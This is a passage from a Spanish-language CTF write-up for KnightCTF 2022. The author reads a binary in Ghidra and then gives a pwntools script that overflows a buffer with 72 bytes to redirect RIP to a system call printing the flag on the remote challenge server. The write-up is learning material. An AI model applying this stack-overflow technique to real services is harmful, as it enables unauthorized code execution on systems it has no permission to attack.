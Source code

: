 Ya con esto en mente, podemos analizar el binario con `Ghidra`, y nos daremos cuenta que dentro de la función `main`, después de hacer una serie de validaciones, se está efectuando una llamada al sistema para ejecutar un `cat` al archivo `/home/hacker/flag.txt`.

![10](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-01-17-KnightCTF-2022/10.png){:class="blog-image" onclick="expandImage(this)"} 

De modo que teniendo control sobre el registro `RIP`, si apuntamos a la dirección de la llamada al sistema, omitiremos toda la validación y conseguiremos listar la flag; para ello, haremos un script en `Python`, bastante parecido al de la máquina [Safe](https://mateonitro550.github.io/Safe-Hack-The-Box) de _Hack The Box_.

```python 
#!/usr/bin/python3

from pwn import *

context.terminal = ['gnome-terminal', '-x']
context.arch = 'amd64'
context.os = 'linux'

p = remote("198.211.115.81", 10001)

flag = p64(0x4011d3)

junk = ("A"*72).encode()

p.sendline(junk + flag)

p.interactive()
```
